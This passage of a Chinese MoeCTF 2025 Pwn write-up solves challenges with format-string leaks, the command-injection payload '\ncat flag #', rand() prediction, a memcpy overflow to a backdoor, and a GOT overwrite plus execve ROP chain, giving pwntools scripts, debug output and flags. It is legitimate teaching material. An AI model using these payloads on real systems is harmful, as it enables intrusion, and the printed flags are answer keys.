然后是第 2 行：

```plain
01:0008│-088 0x7fffffffd5f8 —▸ 0x5555555592a0 ◂— 0x7254616f74 /* 'toaTr' */
```

它表明从地址 `0x7fffffffd5f8` 起存放 `s2_1` 的值，这个值是 `0x5555555592a0`——`pwndbg` 贴心地告诉我们这是一个指针，并且直接打出了它指向的内存内容 `0x7254616f74`😭还直接帮我们解码出来 `"toaTr"`😭我哭死

下面 `02` 和 `03` 存放的是 `s1` 的值，此事在 IDA Pro 的 `main()` 栈分析中亦有记载。紧接着

```plain
04:0020│-070 0x7fffffffd610 ◂— 0x586f586c47 /* 'GlXoX' */
```

从 `0x7fffffffd610` 开始，存放的是变量 `s2` 的值 `0x586f586c47`，该值亦被解码为字符串 `"GlXoX"`。

```plain
06:0030│ rdi 0x7fffffffd620 ◂— '%p.%p.%p.%p.%p.%p.%p.%p.%p.%p\n'
07:0038│-058 0x7fffffffd628 ◂— '.%p.%p.%p.%p.%p.%p.%p\n'
```

从 `06` 开始，存放的是 `s` 的内容，也就是我们的 `payload`。我们发现 `RDI` 寄存器也指向这里——这是显然的，因为 `s` 是 `printf()` 的第 1 个参数。

现在我们来构想一下 `%p` 会被如何处理。我们先前说过，`printf()` 会按照寄存器到栈的顺序读取数据。`rdi` 寄存器已经被用来存格式化字符串，所以 `%p` 打印到的第一个东西位于 `rsi`…5 个 `%p` 轮完所有寄存器后，从第 6 个 `%p` 起，`printf()` 开始打印栈上的值。栈上的第 2 个值和第 5 个值是我们所期望的——也就是第 7 和 10 个 `%p` 对应的地址。其中第 7 项存储的是 `s2_1` 指向的地址，我们将 `%p` 替换成 `%s` 即可拿到值；第 10 项直接是 `s2` 的内容，无需进一步加工。

但是我们真的放心这样做吗？考虑到 `pwndbg` 还在断点里，我们 `c`（`continue`）一下试试看：

```plain
pwndbg> c
Continuing.
0x7fffffffd440.(nil).(nil).(nil).(nil).0x100000.0x5555555592a0.0x19.(nil).0x586f586c47
```

这输出印证了我们的猜测😋这里引入一个小 trick，其实我们可以直接这么输入 `payload`：

```plain
%10$p, %7$s
```

这里的 `10$` 表示第 10 个，它可以直接打印出栈上第 10 个位置的数据，以及第 7 个位置的数据作为指针，指向的位置的数据。我们试运行一下：

```plain
Hey there, little one, what's your name?
%10$p, %7$s
Nice to meet you,0x6d564c4443, kAWFZ
```

完美😋直接对前者进行一个 CyberChef 的 Hex2String，得到结果，输进去——

```plain
Hey there, little one, what's your name?
%10$p, %7$s
Nice to meet you,0x6d564c4443, kAWFZ
I buried two treasures on the stack.Can you find them?
mVLDC
Not that one.
[Inferior 1 (process 6422) exited normally]
```

坠机了😨😭思来想去，原来是 byd 小端序的问题：`s2` 是一个 `char s2[16]` 数组，它的内容直接在栈上存储，比如说：

| 内存地址 | ...d610 | ...d611 | ...d612 | ...d613 | ...d614 | ...d615 |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **字符** | 'd' | 'H' | 's' | 'I' | 'L' | '\0' |
| **十六进制** | 0x64 | 0x48 | 0x73 | 0x49 | 0x4c | 0x00 |

这里处理 `%p` 时，`printf()` 从低地址开始读取一个指针大小的数据，然后把它当做一个单独的、完整的数字，用十六进制打印出来。然而因为小端序，读出来的东西被倒序了，它将 `0x644873494c00` 倒序为了 `0x004c49734864`，这不是我们想要的：因为我们的随机字符串是顺序写入数组的。所以我们需要手动倒序一波。

这下记好了：要倒序！这下难不倒零音了😋……啊？

```plain
pwndbg> r
Starting program: /mnt/s/MoeCTF/Pwn/fmt/pwn
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hey there, little one, what's your name?
%10$p, %7$s
Nice to meet you,0x4872475753, vMEFX
I buried two treasures on the stack.Can you find them?
SWGrH
Yeah,another one?
XFEMv
Not that one.
[Inferior 1 (process 6426) exited normally]
```

怎么又坠机了😭气死我了😡😡

突然发现第二次输入的时候不需要倒序了，因为这里处理 `%s` 时，`printf()` 会将第 7 个参数当做一个地址，跳转过去，从那里逐字节读取，直到遇到 `\0` 为止，这一次它是正向的😡😡啊呀，气死我了😡😡😡

本题显然无需 Pwntools 脚本，我们直接 `nc` 上去拿 `flag` 即可。下面的内容不作说明了。

突然发现这是 Pwn 的 writeup 的第 `2025` 行诶😱那星澜音就在这里许一个愿望吧：星澜音希望身边所有的朋友们永远幸福、永远快乐，身体健康、万事如意！希望身边的朋友们能够好好地守护值得守护的人，亦被他人所好好地守护；希望身边的朋友们能够在生活中遇到自己的心之所向（ 嗯……(\*/ω＼\*) 星澜音是这么想的，也会永远这么做的！）然后，然后，**一定要永远在一起**（对吗，对的对的！）这世上还是好人多，我们要坚信这一点（不对说这个干嘛）~~怎么给一行造了这么多东西~~

## inject

> [!NOTE]
> **FLAG:** `moectf{THis-I5-n0t_1ike_a-pwN_Ch4lI3Ngea5dee}`，后面可能是随机的。

打开 IDA Pro，对着 `pwn` 狠狠进攻🥵先定位到 `main()` 函数：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int v4; // [rsp+4h] [rbp-2Ch] BYREF
    unsigned __int64 v5; // [rsp+8h] [rbp-28h]

    v5 = __readfsqword(0x28u);
    setbuf(_bss_start, 0LL);
    setbuf(stdin, 0LL);
    puts("Welcome to server maintainance system.");
    while ( 1 )
    {
        _printf_chk(
            1LL,
            "1. List processes\n2. Check disk usage\n3. Check network activity\n4. Test connectivity\n5. Exit\nYour choice: ");
        if ( (int)_isoc99_scanf("%u", &v4) < 0 )
            break;
        getc(stdin);
        switch ( v4 )
        {
        case 1:
            execute("ps aux");
            break;
        case 2:
            execute("df -h");
            break;
        case 3:
            execute("netstat -ant");
            break;
        case 4:
            ping_host();
            break;
        case 5:
            exit(0);
        default:
            puts("Invalid choice!");
            break;
        }
    }
    exit(1);
}
```

服务器维护系统😍小工具好啊，~~拿来给自己服务器用了（不是星澜音你在想什么~~

结合题目提示：

> 一般来说 Pwn challenges 都以内存损坏漏洞为主。然而 binary 程序有很多漏洞不需要内存越界读写，开再多的保护也防不住，程序员即使换用 Rust 等内存安全语言也可能犯相同的错误。这种漏洞利用起来简单，危害可能还更大？！

emmm 思来想去，似乎除了 `case 4`，剩下的几率都小了一些，不妨看看 `ping_host()` 吧。

```c
unsigned __int64 ping_host()
{
    _QWORD *buf_1;           // rsi
    size_t v1;               // rax
    char *command_1;         // rdi
    unsigned __int64 result; // rax
    char v4;                 // [rsp+1h] [rbp-51h]
    _QWORD buf[2];           // [rsp+2h] [rbp-50h] BYREF
    char command[40];        // [rsp+12h] [rbp-40h] BYREF
    unsigned __int64 v7;     // [rsp+3Ah] [rbp-18h]

    v7 = __readfsqword(0x28u);
    buf[0] = 0LL;
    buf[1] = 0LL;
    _printf_chk(1LL, "Enter host to ping: ");
    buf_1 = buf;
    if (read(0, buf, 0xFuLL) <= 0)
        exit(1);
    v1 = strlen((const char *)buf);
    if (*(&v4 + v1) == 10)
        *(&v4 + v1) = 0;
    if ((unsigned int)check(buf))
    {
        buf_1 = &qword_20;
        _snprintf_chk(command, 32LL, 1LL, 32LL, "ping %s -c 4", (const char *)buf);
        command_1 = command;
        execute(command);
    }
    else
    {
        command_1 = "Invalid hostname or IP!";
        puts("Invalid hostname or IP!");
    }
    result = v7 - __readfsqword(0x28u);
    if (result)
        _stack_chk_fail(command_1, buf_1);
    return result;
}
```

既然题目说不需要内存越界读写，我们也就不去考虑这些了。这里直接给出 `payload`：

```bash
\ncat flag #
```

工作原理是显然的。😋当然这里要避免一次性打太多东西进去，因为有长度限制。

> [!TIP]
> **P.S.:** 靶机连 `ping` 都没有😡😡疑似有点过于简陋了。

## randomlock

> [!NOTE]
> **FLAG:** `moectf{sUCh-4_FAk3_cHAoTlC_3Vl155fce72e}`，后面可能是随机的。

老生常谈的看看 `main()` 环节：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int v4;              // [rsp+Ch] [rbp-14h] BYREF
    int i;               // [rsp+10h] [rbp-10h]
    int v6;              // [rsp+14h] [rbp-Ch]
    unsigned __int64 v7; // [rsp+18h] [rbp-8h]

    v7 = __readfsqword(0x28u);
    init(argc, argv, envp);
    initseed();
    srand(seed);
    puts("My lock looks strange—can you help me?");
    for (i = 1; i <= 10; ++i)
    {
        printf("password %d\n>", i);
        v6 = rand() % 10000;
        __isoc99_scanf("%d", &v4);
        if (v6 != v4)
            lose();
    }
    win();
    return 0;
}
```

`win()` 没啥说的，直接打印出 `./flag` 了。注意到 `main()` 中还是用了 `initseed()` 和 `srand(seed)`，和 `boom` 看起来有点类似🤔跟进一下 `initseed()`：

```c
__int64 initseed()
{
    __int64 result; // rax
    int i;          // [rsp+8h] [rbp-8h]
    int fd;         // [rsp+Ch] [rbp-4h]

    fd = open("/dev/urandom", 0, 0LL);
    if (fd < 0)
    {
        puts("urandom");
        exit(1);
    }
    read(fd, &seed, 3uLL);
    close(fd);
    seed = seed % 0x64 + 1;
    for (i = 1; i <= 120; ++i)
        change();
    while (1)
    {
        result = seed & 1;
        if ((seed & 1) != 0)
            break;
        change();
    }
    return result;
}
```

🤔程序从 `fd`（这里是 `/dev/urandom` 的文件描述符）中向 `seed` 读取了 3 位随机数，随后对其求模 $100$ 后加 $1$，使得 `seed` 落在 $[1, 100]$ 内。随后调用了 120 次 `change`🤔略微诡异，继续跟进：

```c
__int64 change()
{
    __int64 result; // rax

    if ((seed & 1) != 0)
    {
        result = 3 * seed + 1;
        seed = 3 * seed + 1;
    }
    else
    {
        result = seed >> 1;
        seed >>= 1;
    }
    return result;
}
```

`change()` 函数是一个数学变换函数，它检测 `seed` 的奇偶，若为奇数，则将 `seed` 乘 $3$ 再加 $1$；若为偶数，则除以 $2$。看起来有点像考拉兹猜想（Collatz Conjecture）？

> [!TIP]
> 考拉兹猜想（Collatz conjecture），又称为奇偶归一猜想、$3n+1$ 猜想、冰雹猜想、角谷猜想、哈塞猜想、乌拉姆猜想或叙拉古猜想，是指对于每一个正整数，如果它是奇数，则对它乘 $3$ 再加 $1$，如果它是偶数，则对它除以 $2$，如此循环，最终都能够得到 $1$。随后进入 $4 \to 2 \to 1$ 的循环。
>
> 这仍是一个未解决的数学问题。

那还说啥呀🤔不过有一个问题，对于 $\text{seed} \in [1, 100]$，我们悉知 $97$ 的循环时间最长，它需要 $118$ 步变换才能进入 $4 \to 2 \to 1$ 的循环。不过 `change()` 进行了 $120$ 次，那还说啥啊，所有数都能进入 $4 \to 2 \to 1$ 的循环😋

不过后面还有一个循环：

```c
while ( 1 )
{
    result = seed & 1;
    if ( (seed & 1) != 0 )
        break;
    change();
}
```

该循环中，若 `seed` 是奇数就跳出循环，否则调用 `change()` 函数并进入下一步循环。我们考虑 $\forall \text{ seed} \in [1, 100]$，在进行 120 次 `change()` 后都进入了 $4 \to 2 \to 1$ 的循环，该循环中…仅有 $1$ 是奇数！游戏结束了😋

编写 `generator.py` 帮我们干这个事：

```python
import ctypes

libc = ctypes.CDLL("libc.so.6")
libc.srand(1)

for i in range(1, 11):
    print(f"The random value {i} is: {libc.rand() % 10000}")
```

狠狠 run：

```python
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF_2025_writeup/writeup/pwn/payloads/randomlock]
└─$ python ./generator.py
The random value 1 is: 9383
The random value 2 is: 886
The random value 3 is: 2777
The random value 4 is: 6915
The random value 5 is: 7793
The random value 6 is: 8335
The random value 7 is: 5386
The random value 8 is: 492
The random value 9 is: 6649
The random value 10 is: 1421
```

😋 `nc` 直连拿 `flag` 即可。

## str_check

> [!NOTE]
> **FLAG:** `moectf{M@YBe_tHis-1s-C-StR1Ng524479b6}`，后面可能是随机的。

使用 IDA Pro 逆向题目给定的 `pwn` 文件，得到如下结果：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char dest[24]; // [rsp+0h] [rbp-20h] BYREF
    size_t n;      // [rsp+18h] [rbp-8h] BYREF

    init(argc, argv, envp);
    puts("What can u say?");
    __isoc99_scanf("%255s", str);
    puts("So,what size is it?");
    __isoc99_scanf("%zu", &n);
    len = strlen(str);
    if ((unsigned __int64)len > 030)
    {
        puts("Oh,too much.");
        exit(1);
    }
    if (!strncmp(str, "meow", 4uLL))
        memcpy(dest, str, n);
    else
        strncpy(dest, str, n);
    puts("You're right.");
    return 0;
}
```

我们的目标是溢出这个 `dest[24]` 的缓冲区。虽然，`if ((unsigned __int64)len > 030)` 对输入字符长度的判断逻辑，似乎已经全然封锁了我们溢出缓冲区的道路，但幸运的是，`strncpy`、`memcpy` 和 `strlen` 各自有极为显著的特性——

1. `strncpy` 从 `str` 中拷贝 **至多** `n` 个字节到 `dest`。若 `str` 的长度小于 `n`，则缺失的部分会被使用 `\0` 补齐，若 `str` 的长度大于等于 `n`，则只会复制前 `n` 个字节。
2. `memcpy` 从 `str` 中拷贝精确的 `n` 个字节到 `dest`。
3. `strlen` 会计算 `str` 的长度，但它认定字符串截止于 `\0`。

那么，我们就明确了攻击的方案——我们使用一个 `\0` 字符串，来迷惑 `strlen` 的长度检验，让它在 24 字节之前就停止；但给它的 `n` 足够大，并使用 `memcpy` 来复制，以防止被 `\0` 截断。如此这般——攻击的链条就很明晰了！

刚刚突然发现 IDA Pro 也能看堆栈结构：从 `dest` 需要一路覆盖 24 个字节，再覆盖掉 `n` 的 8 个字节和 `saved RBP` 的 8 个字节，也就是 PADDING 掉 40 个字节，才能干出返回地址。



万事俱备！但…返回到哪？😰这真坏事了，题目既没有给 `libc`，也没有……诶？别急？打开 IDA Pro 一看，嚯，一个 `backdoor()` 函数映入眼帘，这波稳了！

```python
from pwn import *

BACKDOOR_ADDR = 0x401236
GADGET_ADDR = 0x40101a

payload = b"meow" + b"\0" + b"A" * 35 + p64(GADGET_ADDR) + p64(BACKDOOR_ADDR)
log.info(f"Payload constructed with length: {len(payload)}")

context(arch="amd64", os="linux", log_level="debug")
io = connect("127.0.0.1", 4989)

io.sendlineafter(b"What can u say?", payload)
io.sendlineafter(b"is it?", str(len(payload)))
io.interactive()
```

运行，输出：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Reverse/str_check]
└─$ python ./backdoor.py
[*] Payload constructed with length: 56
[+] Opening connection to 127.0.0.1 on port 9075: Done
[DEBUG] Received 0x10 bytes:
    b'What can u say?\n'
[DEBUG] Sent 0x39 bytes:
    00000000  6d 65 6f 77  00 41 41 41  41 41 41 41  41 41 41 41  │meow│·AAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 41 41  1a 10 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  36 12 40 00  00 00 00 00  0a                        │6·@·│····│·│
    00000039
/mnt/s/MoeCTF/Reverse/str_check/./backdoor.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"is it?", str(len(payload)))
[DEBUG] Received 0x13 bytes:
    b'So,what size is it?'
[DEBUG] Sent 0x3 bytes:
    b'56\n'
[*] Switching to interactive mode
[DEBUG] Received 0x1 bytes:
    b'\n'

[DEBUG] Received 0xe bytes:
    b"You're right.\n"
You're right.
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x27 bytes:
    b'moectf{M@YBe_tHis-1s-C-StR1Ng524479b6}\n'
moectf{M@YBe_tHis-1s-C-StR1Ng524479b6}
```

结束😋

## syslock

> [!NOTE]
> **FLAG:** `moectf{d0nT-ENC@PSUI@t3-My_5YscALl5a0ce49}`，后面可能是随机的。

定睛细看——

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    init(argc, argv, envp);
    write(1, "My lock looks strange—can you help me?\n", 0x29uLL);
    write(1, "choose mode\n", 0xCuLL);
    i = input();
    if (i > 4)
        lose();
    write(1, "Input your password\n", 0x14uLL);
    read(0, (char *)&s + i, 0xCuLL);
    if (i != 59)
        lose();
    cheat();
    return 0;
}
```

程序会先直接向标准输出写入

> My lock looks strange—can you help me?</br>
> choose mode

随后要求用户输入。若用户输入的值大于 `4` 则会直接 `lose()`，但后文中，若用户输入的值不是 `59` 也会直接 `lose()`？这太诡异了……看来我们必须赶在 `if (i != 59)` 的判定前改掉 `i` 的值<sub>（存疑）</sub>。这又让我们想到了缓冲区溢出，而目光也只好聚焦在 `read` 上！

```c
read(0, (char *)&s + i, 0xCuLL);
```

这一行代码从标准输入中取出至多 12 个字节的数据，并将其放入 `(char *)&s + i` 中，即变量 `s` 的地址向后 `i` 个字节的位置。但倘若我们双击 `s` 以跟踪，可以发现 `s` 位于……诶？bss 段中？

> [!TIP]
> 所谓 bss 段（bss segment），它通常是指用于存放程序中未初始化的全局变量和静态变量的一块内存区域。操作系统在加载程序时，会将其初始化为 `0`。

换成之前的话，我们其实是可以直接把 `s` 当成 `buf`，一路写到 `return addr` 的；但是这一次，我们无论怎么写，却也只能写到 `bss` 里了……看来得换一种方案！我们需要使用一种新方法——**GOT 覆写**。

> [!TIP]
> **GOT（Global Offset Table，全局偏移表）** 是 ELF 格式中一个非常重要的数据结构，主要用于实现动态链接。
>
> 编译器在编译程序的时候，并不知道这些库函数（例如 `printf` 和 `system`）在内存中的确切地址，因此，GOT 的存在，就是为了解决在程序运行时确定外部函数和变量地址的问题。GOT 存储了外部符号（如函数或全局变量）在运行时解析后的实际内存地址。
>
> 例如，当程序调用 `printf` 时，它会跳转到 PLT（Procedure Linkage Table，过程链接表）中 `printf` 对应的条目，而 PLT 中的代码又会间接跳转到 GOT 中 `printf` 对应条目中存储的地址。
>
> 1. 第一次调用时，GOT 条目指向的是动态链接器的代码，动态链接器在已加载的共享库中查找 `printf` 的真实内存地址，随后将这个真实内存地址写回 GOT 中 `printf` 对应的条目中；
> 2. 后续调用中，GOT 条目存储的就是 `printf` 的真实内存地址。
>
> 随后，程序跳转到 `printf` 函数执行，执行完毕后返回给原来的程序。
>
> GOT 覆写攻击的核心是：GOT 本身是一个可读可写的数据区。因为我们先前也说了，为了提高启动速度，GOT 中的地址不是在程序一加载就全部填好的，而是在该函数第一次被调用时才会填入。如果我们能够想办法在 GOT 的地址生成后覆写掉 GOT 的部分函数的真实内存地址，这样，不就能控制程序流的位置了吗？

基于此，我们考虑到程序中的 `if (i != 59) lose();`，或许我们可以直接覆写掉 `lose()` 的地址？遗憾的，GOT 中并没有存储 `lose()` 的地址，这是因为 GOT 本身是为了解决动态链接问题而存在的，它内部存储的是共享库中的外部函数，但 `lose()` 本身是一个内部函数。既然无法直接修改 `lose()`，那我们就只能看看跳转到 `lose()` 后的逻辑了。

```c
void __noreturn lose()
{
    signed __int64 v0; // rax

    v0 = sys_write(1u, "Something wrong.\n", 0x11uLL);
    exit(0);
}
```

注意看 `exit()`！它是一个在共享库中定义的外部函数，这样的话，我们就能直接覆写 `exit()` 在 GOT 中的地址了😋我们当然可以使用 GDB 获取 `s` 和 `exit()` 的内存相对地址，然而 IDA Pro 提供了一个更加一站式的方案，我们也可以直接在 IDA Pro 中查看内存地址。总之，`s` 位于 `0x4040A0` 而 `exit` 位于 `0x404020`，我们想要修改 `exit()` 在 GOT 中指向的内存地址，直接将它引导到 `cheat()` 里！这样的话，也并不需要改掉 `i` 的值了。

然而问题是：`write` 只能向 `s` 的起始地址之后写入东西，但我们该怎么让 `write` 覆盖到 `s` 之前呢？我们只好大胆猜测——或许这个 `i`，可以是负数。考虑到 `s` 和 `exit` 的起始地址差了 `0x80` 即 128 个字节，我们让这个 `i` 为 -128，然后把 `cheat` 的地址写到 GOT 中 `exit` 处。

为了探测我们的思路是否正确，我们先编写半个 Python 脚本如下：

```python
from pwn import *

s_ADDR = 0x4040A0
exit_ADDR = 0x404020
cheat_ADDR = 0x401249
OFFSET = exit_ADDR - s_ADDR

payload = p64(cheat_ADDR)

context(arch="amd64", os="linux", log_level="debug")
io = connect("127.0.0.1", 10848)

io.sendlineafter(b"choose mode", str(OFFSET))
io.sendlineafter(b"password", payload)
io.interactive()
```

运行，输出：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF]
└─$ python ./3.py
[+] Opening connection to 127.0.0.1 on port 10848: Done
/mnt/s/MoeCTF/./3.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"choose mode", str(OFFSET))
[DEBUG] Received 0x35 bytes:
    00000000  4d 79 20 6c  6f 63 6b 20  6c 6f 6f 6b  73 20 73 74  │My l│ock │look│s st│
    00000010  72 61 6e 67  65 e2 80 94  63 61 6e 20  79 6f 75 20  │rang│e···│can │you │
    00000020  68 65 6c 70  20 6d 65 3f  0a 63 68 6f  6f 73 65 20  │help│ me?│·cho│ose │
    00000030  6d 6f 64 65  0a                                     │mode│·│
    00000035
[DEBUG] Sent 0x5 bytes:
    b'-128\n'
[DEBUG] Received 0x14 bytes:
    b'Input your password\n'
[DEBUG] Sent 0x9 bytes:
    00000000  49 12 40 00  00 00 00 00  0a                        │I·@·│····│·│
    00000009
[*] Switching to interactive mode

[DEBUG] Received 0x11 bytes:
    b'Something wrong.\n'
Something wrong.
[DEBUG] Received 0x10 bytes:
    b'Developer Mode.\n'
Developer Mode.
```

成功！我们绕到了 `cheat()` 函数，接下来的一切都好说了😋我们现在去看看 `cheat()` 函数的面容。

```c
ssize_t cheat()
{
    _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF

    write(1, "Developer Mode.\n", 0x10uLL);
    return read(0, buf, 0x100uLL);
}
```

嗯~继续在 IDA Pro 跟踪 `buf` 附近的栈结构：

```plain
-0000000000000040 // Use data definition commands to manipulate stack variables and arguments.
-0000000000000040 // Frame size: 40; Saved regs: 8; Purge: 0
-0000000000000040
-0000000000000040     _BYTE buf[64];
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```

这就好说了，狠狠地溢出 72 个字节即可😋不过这里又该怎么溢？既没有给定的 `libc`，也没有上一道题的 `backdoor()`🤔看看题目提示：

> 系统调用是什么？`system` 函数使用了什么系统调用来启动一个 `shell` 子进程？如何进行系统调用？

所谓「系统调用」（syscall），譬如读文件、写屏幕、创建新进程等等……这些事情都不能由程序自身完成，而必须需要去请求内核来完成，这一个请求就是一个系统调用。当 `system` 函数被调用时，它实际上先进行了一个 `fork()`（或 `clone()`）系统调用，创建一个和当前进程一致的子进程，然后在子进程中调用 `execve()` 系统调用，`execve()` 使用新程序替换子进程来执行命令。

我们如何才能让程序为我们打开 Shell？或许需要借用系统调用的概念；但在 CTF Pwn 题目中，其实，我们只需要 `execve()` 就好了：创建一个系统调用，直接干出来 Shell，拿到 `flag` 就可以跑路了。不过，该如何才能执行一个系统调用呢？我们可能在 IDA Pro 中发现了一个奇妙的函数 `gadget`，尝试反编译：

```c
// positive sp value has been detected, the output may be wrong!
void gadget()
{
    ;
}
```

？？？竟然又是花…诶不对——

事实上，星澜音在这里以为这函数又是传统花指令，已经准备打开汇编代码大刀阔斧开干了；但转为汇编后，突然发现：

```asm
; =============== S U B R O U T I N E =======================================


                public gadget
gadget          proc near
; __unwind {
                endbr64
                pop     rdi
                pop     rsi
                pop     rdx
                retn
gadget          endp ; sp-analysis failed

; ---------------------------------------------------------------------------
                pop     rax
                retn
; ---------------------------------------------------------------------------
                db 90h
; ---------------------------------------------------------------------------
                ud2
; } // starts at 40123C
```

😨 `gadget` 竟然直接为我们提供了 `pop rdi ; pop rsi ; pop rdx ; retn` 的一站式服务！一般地，我们想要进行一次系统调用，可以使用 C 语言标准库已经为我们封装好的函数，比如说 `write`；但对于攻击者（我们）而言，我们没有办法再调用标准库封装好的函数了，所以我们使用最底层的系统调用方法——手写寄存器。

对于 x86-64 系统，有这样的寄存器约定：`rax` 存储系统调用号，`rdi`、`rsi` 和 `rdx` 存储第 1~3 个参数，`r10`、`r8` 和 `r9` 存储第 4~6 个参数，唤起 `syscall` 后，程序触发一次中断，让 CPU 从用户模式切换到内核模式，`syscall` 进行对应操作后，将返回值置于 `rax` 中，随后模式返回。

我们的需求是执行 `execve("/bin/sh", NULL, NULL)`，所以只需要将 `execve` 的系统调用号 `59` 存入 `rax`，将 `"/bin/sh"` 存入 `rdi`，对 `rsi` 和 `rdx` 写 `0` 即可。对 `rdi`、`rsi` 和 `rdx` 的操作，可以直接使用 `gadget()` 完成；但 `rax` 呢？注意到 `pop rax ; retn`，我们可以先把 `59` 存入 `rax` 再 `retn` 回来，然后再跳到 `gadget()` 去操作三个寄存器！之后再 `retn`，就可以执行目标 syscall 了。

攻击后的栈结构如下所示：

```plain
** High Address **

 -----------------------------
|      `syscall` address      |
 -----------------------------
|            `rax`            |
 -----------------------------
|   `pop rax; retn` address   |
 -----------------------------
|     `rdi`, `rsi`, `rdx`     |
 -----------------------------
| `pop rdi, rsi, rdx` address |
 -----------------------------
|      PADDING(72 bytes)      |
 -----------------------------

** Low Address **
```

好的，现在我们去寻找 `"/bin/sh"` 字符串的地址：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/syslock]
└─$ ROPgadget --binary ./pwn --string "/bin/sh"
Strings information
============================================================
```

……看来是没有。`strings` 也搜不出来一点东西，看来我们还需要改进措施——既然没有办法直接把 `"/bin/sh"` 干到程序里面，那我们就使用已有的 `read()` 函数，把目标字符串直接写进去！`read()` 的写入地址不妨就设在 `s` 吧，毕竟这一块已经被用完了——修改攻击后栈结构，使得它多来一次 `read()`：

```plain
** High Address **

 -----------------------------
|      `syscall` address      |
 -----------------------------
|         `rax` = 59          |
 -----------------------------
|  `pop rax ; retn` address   |
 -----------------------------
|          `rdx` = 0          |
 -----------------------------
|          `rsi` = 0          |
 -----------------------------
|       `rdi` = s_ADDR        |
 -----------------------------
| `pop rdi, rsi, rdx` address |
 -----------------------------
|     `read_plt` address      |
 -----------------------------
|          `rdx` = 8          |
 -----------------------------
|       `rsi` = s_ADDR        |
 -----------------------------
|          `rdi` = 0          |
 -----------------------------
| `pop rdi, rsi, rdx` address |
 -----------------------------
|      PADDING(72 bytes)      |
 -----------------------------

** Low Address **
```

编写 Python 脚本如下：

```python
from pwn import *

# 连接到远程服务器
context(arch="amd64", os="linux", log_level="debug")
io = connect("127.0.0.1", 9542)

# 第 1 次攻击
s_ADDR = 0x4040A0
exit_ADDR = 0x404020
cheat_ADDR = 0x401249
OFFSET = exit_ADDR - s_ADDR

payload_1 = p64(cheat_ADDR)

io.sendlineafter(b"choose mode", str(OFFSET))
io.sendlineafter(b"password", payload_1)

# 第 2 次攻击
pop_retn_ADDR = 0x40123C
read_plt_ADDR = 0x4010A0
pop_rax_retn_ADDR = 0x401244
syscall_ADDR = 0x401230

payload_2 = b"DRYICE" * 12
payload_2 += p64(pop_retn_ADDR) + p64(0) + p64(s_ADDR) + p64(8) + p64(read_plt_ADDR)
payload_2 += p64(pop_retn_ADDR) + p64(s_ADDR) + p64(0) + p64(0)
payload_2 += p64(pop_rax_retn_ADDR) + p64(59) + p64(syscall_ADDR)

io.sendlineafter(b"Developer Mode.", payload_2)
io.send(b"/bin/sh\0")
io.interactive()
```

运行，输出：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF]
└─$ python ./3.py
[+] Opening connection to 127.0.0.1 on port 9542: Done
/mnt/s/MoeCTF/./3.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"choose mode", str(OFFSET))
[DEBUG] Received 0x35 bytes:
    00000000  4d 79 20 6c  6f 63 6b 20  6c 6f 6f 6b  73 20 73 74  │My l│ock │look│s st│
    00000010  72 61 6e 67  65 e2 80 94  63 61 6e 20  79 6f 75 20  │rang│e···│can │you │
    00000020  68 65 6c 70  20 6d 65 3f  0a 63 68 6f  6f 73 65 20  │help│ me?│·cho│ose │
    00000030  6d 6f 64 65  0a                                     │mode│·│
    00000035
[DEBUG] Sent 0x5 bytes:
    b'-128\n'
[DEBUG] Received 0x14 bytes:
    b'Input your password\n'
[DEBUG] Sent 0x9 bytes:
    00000000  49 12 40 00  00 00 00 00  0a                        │I·@·│····│·│
    00000009
[DEBUG] Received 0x11 bytes:
    b'Something wrong.\n'
[DEBUG] Received 0x10 bytes:
    b'Developer Mode.\n'
[DEBUG] Sent 0xa9 bytes:
    00000000  44 52 59 49  43 45 44 52  59 49 43 45  44 52 59 49  │DRYI│CEDR│YICE│DRYI│
    00000010  43 45 44 52  59 49 43 45  44 52 59 49  43 45 44 52  │CEDR│YICE│DRYI│CEDR│
    00000020  59 49 43 45  44 52 59 49  43 45 44 52  59 49 43 45  │YICE│DRYI│CEDR│YICE│
    00000030  44 52 59 49  43 45 44 52  59 49 43 45  44 52 59 49  │DRYI│CEDR│YICE│DRYI│
    00000040  43 45 44 52  59 49 43 45  40 12 40 00  00 00 00 00  │CEDR│YICE│@·@·│····│
    00000050  00 00 00 00  00 00 00 00  a0 40 40 00  00 00 00 00  │····│····│·@@·│····│
    00000060  08 00 00 00  00 00 00 00  a0 10 40 00  00 00 00 00  │····│····│··@·│····│
    00000070  40 12 40 00  00 00 00 00  a0 40 40 00  00 00 00 00  │@·@·│····│·@@·│····│
    00000080  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000090  44 12 40 00  00 00 00 00  3b 00 00 00  00 00 00 00  │D·@·│····│;···│····│
    000000a0  30 12 40 00  00 00 00 00  0a                        │0·@·│····│·│
    000000a9
[DEBUG] Sent 0x8 bytes:
    00000000  2f 62 69 6e  2f 73 68 00                            │/bin│/sh·│
    00000008
[*] Switching to interactive mode

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
